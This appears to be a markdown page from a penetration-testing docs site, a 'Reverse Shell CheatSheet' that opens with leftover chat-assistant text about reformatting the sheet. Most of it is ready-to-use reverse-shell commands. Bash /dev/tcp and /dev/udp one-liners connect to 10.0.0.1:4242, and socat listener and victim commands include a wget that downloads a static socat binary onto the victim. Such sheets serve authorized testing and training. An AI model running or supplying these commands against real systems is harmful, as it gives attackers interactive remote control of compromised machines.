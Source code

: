 ```yaml
---
icon: arrow-up-arrow-down
---
```


# Reverse Shell CheatSheet

Got it! We’ll keep **everything** from your original cheatsheet but structure it in a **clear, organized, and readable way** so that it’s easy to navigate and use. I will group by **language/tool**, then by **TCP/UDP/platform**, and add **headings, indentation, and notes** for clarity—without removing any content. Here’s the improved version:

***

## **Reverse Shell Cheatsheet – Full Version**

***

### **1. Bash Reverse Shells**

#### TCP

```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/10.0.0.1/4242 0<&1 2>&1
```

#### UDP

```bash
# Victim
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

# Listener
nc -u -lvp 4242
```

**Tip:** Check other shells: `sh`, `ash`, `bsh`, `csh`, `ksh`, `zsh`, `pdksh`, `tcsh`, `bash`.

***

### **2. Socat**

```bash
# Listener on attacker
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242

# Victim
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242

# Download static binary on victim (Linux)
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat
user@victim$ chmod +x /tmp/socat
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

